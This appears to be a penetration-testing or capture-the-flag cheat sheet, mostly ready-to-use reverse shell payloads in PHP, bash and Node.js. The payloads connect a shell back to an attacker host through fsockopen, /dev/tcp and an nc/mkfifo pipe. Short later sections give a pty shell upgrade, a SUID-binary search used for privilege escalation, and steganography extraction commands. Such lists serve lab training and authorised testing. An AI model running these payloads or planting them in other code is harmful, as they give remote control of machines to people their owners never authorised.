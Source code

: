 ### Reverse Shell Payloads

```php
<?php
$ip = '192.168.1.10';
$port = 4444;

$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh -i', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'");
?>
```

```bash
echo 'bash -i >& /dev/tcp/IP/5555 0>&1' > script.sh
```

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc IP 4444 > /tmp/f" > script.sh
```

```bash
printf '#!/bin/bash\nbash -i >& /dev/tcp/IP/5555 0>&1' > script.sh
```

```js
require("child_process").exec(
  "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc IP 4444 >/tmp/f"
);
```

### Shell Upgrade:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

### SUID Binaries

```bash
find / -perm -u=s -type f 2>/dev/null
```

### Steganography

```bash
exiftool fileName.jpg
steghide extract -sf fileName.jpg
binwalk -e fileName.png
```

Binwalk fix:

```bash
sed -i 's/CS_ARCH_ARM64/CS_ARCH_AARCH64/g' /usr/lib/python3/dist-packages/binwalk/modules/disasm.py
```

### Python Simple Server

```bash
python -m SimpleHTTPServer
```

### Secure File Transfer

```bash
scp userName@IP:fileName.jpg .
```

